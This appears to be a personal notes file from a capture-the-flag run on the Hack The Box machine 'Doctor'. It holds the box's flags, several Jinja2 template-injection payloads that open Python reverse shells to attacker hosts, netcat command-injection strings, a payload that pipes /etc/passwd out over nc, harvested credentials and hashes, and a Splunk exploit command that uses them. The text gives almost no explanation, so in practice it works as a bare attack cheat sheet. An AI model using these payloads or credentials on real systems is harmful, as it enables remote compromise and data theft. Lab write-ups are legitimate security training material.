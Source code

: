 # HTB Doctor

# Saikat Karmakar | Dec 29:2020

1. user flag.
```
7a06518ea92f9fcc789f0951036b1552
```
2. root flag.
```
15dcef49e24314f4322775fd373a3e73
```

**Notes**
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.45\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.47\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}



<img src=http://10.10.14.45/$(nc.traditional$IFS-e$IFS/bin/bash&IFS'10.10.10.209'$IFS'9999')>

<img src=http://10.10.14.45/$(nc.traditional$IFS-e$IFS/bin/bash&IFS%2710.10.10.209%27$IFS%279999%27)%3E

<img src=http://10.10.14.45/$(nc.traditional$IFS-e$IFS/bin/bash$IFS%2710.10.14.176%27$IFS%271234%27)%3E

{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc 10.10.14.45 9999')['read']() == 'chiv' %} a {% endif %}


```
user : adminadmin@doctor.htbdefault.gif
hash : $2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S

user : shaun
pass : Guitar123


$6$TOs.jXjSRTCsfPsw$2St.t9lH9fpXd9mCEmCizWbb67gMFfBIJU37QF8wsHKSGud1QNMCuUdWkD8IFSgCZr5.W6zkjmNACGhGafQZj1


```
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.47 --username shaun --password Guitar123 --payload "nc.traditional -e/bin/bash '10.10.14.45' '1234'"
```